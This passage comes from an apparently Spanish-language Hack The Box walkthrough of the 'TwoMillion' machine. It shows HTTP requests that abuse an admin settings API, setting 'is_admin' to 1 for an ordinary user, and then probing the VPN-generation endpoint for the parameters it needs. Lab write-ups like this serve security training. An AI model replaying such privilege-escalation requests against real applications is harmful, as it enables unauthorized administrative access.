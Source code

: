 Parece que hay que enviar `1` o `0` en el valor del parámetro `ìs_admin`, entonces modificamos la petición y lo lanzamos de nuevo:

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-Type: application/json
...
{
	"email":"test@test.com",
	"is_admin": 1
}
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-16.png)

Parece que ya hemos conseguido realizar la petición, utilizando un usuario que no era administrador y ahora hemos conseguido actualizarlo para que sea administrador de la aplicación, por lo que probaremos a hacer una petición al endpoint de `/api/v1/admin/vpn/generate` sin parámetros para ver si con el mensaje de error descubrimos que parámetros debemos enviarle:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-17.png)

Vemos que le falta un parámetro `username`, por lo que lo añadimos en la petición indicando nuestro usaurio, y lo lanzamos de nuevo:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test"
}
```
